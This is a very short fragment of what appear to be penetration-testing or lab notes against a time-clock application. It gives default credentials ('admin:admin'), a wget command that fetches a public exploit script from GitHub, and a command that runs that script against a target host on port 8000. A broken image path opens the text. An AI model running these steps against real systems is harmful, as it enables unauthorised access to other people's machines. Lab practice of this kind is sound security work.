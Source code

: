 Default creds admin:admin
```
wget https://raw.githubusercontent.com/timip/exploit/master/timeclock.py
```
```
python timeclock.py $TARGET 8000
```